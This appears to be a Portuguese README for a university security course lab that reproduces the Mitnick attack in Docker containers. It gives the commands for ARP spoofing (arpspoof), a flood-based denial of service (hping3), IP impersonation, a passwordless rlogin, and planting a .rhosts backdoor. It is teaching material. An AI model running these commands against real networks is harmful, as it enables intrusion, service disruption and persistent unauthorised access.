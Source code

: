 # Mitnick Attack

## Contexto

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

***

## Entendendo nossa versão do ataque

### estrutura geral

Nossa topologia consistirá de 3 containers docker:
    1. [attacker](attacker/Dockerfile)
    2. [trusted_server](trusted-server/Dockerfile)
    3. [x-terminal](xterminal/Dockerfile)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### usuários

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### attacker

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### trusted_server

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### Ataque

O ataque será feito em quatro etapas:
    1. [Arp Spoofing](./Readme.md#realizando-o-arp-spoofing)
    2. [Negação de serviço](./Readme.md#realizando-a-negação-de-serviço)
    3. [Personificação](./Readme.md#realizando-a-personificação)
    4. [Invadindo](./Readme.md#invadindo)
    5. [Backdoor](./Readme.md#backdoor)
***

## Requisitos

- docker
- docker compose

***

## Como executar

1. Iniciando as máquinas

    ```bash
    docker-compose up -d
    ```

2. Acessando as máquinas

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

3. Realizando o arp spoofing

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. Realizando a negação de serviço

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. Realizando a personificação

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

6. configurando o backdoor

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts

***

## Roadmap

- [X] colocar as maquinas na mesma rede
- [X] derrubar o trusted server
- [X] personificar ip e mac do trusted server
- [X] fazer rlogin no x-terminal através do attacker
- [ ] conferir se os pacotes estão sendo enviados para o trusted server
- [ ] fechar o x-terminal para ser acessado apenas pelo trusted server
- [ ] fazer o backdoor de forma que fique aberto para toda a rede
